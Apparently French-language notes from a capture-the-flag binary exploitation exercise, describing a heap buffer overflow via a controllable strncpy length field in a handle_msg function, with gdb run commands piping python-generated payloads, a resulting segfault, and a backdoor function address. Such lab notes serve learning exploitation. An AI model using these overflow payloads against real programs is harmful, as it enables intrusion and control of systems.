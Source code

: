 (int *)(a1 + 180) dans le strncpy a cette adresse memoire on peut mettre une variable qui va overflow le strncpy
Mettre le int a un caractere dans le user

Va ecrire \xff dans la heap qui va provoquer un buffer overflow
run <<< $(python -c 'print "\xff" * 49 + "\xff"'; python -c 'print "S" * 1000')
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()

=> b *0x00005555555549cb pour check la heap et le overflow
0x000055555555488c l adresse de backdoor
run <<< $(python -c 'print "\x41" * 40 + "\xff"' && python -c 'print "\x42" * 290 + "\x41"')

le 41eme caractere est le nombre qui sera dans strncpy

// Compter les caracteres dans le s qui va provoquer le bufferoverflow (strncpy((char *)a1, s, *(int *)(a1 + 180));)

// Ou sinon utiliser gef a la place de gdb
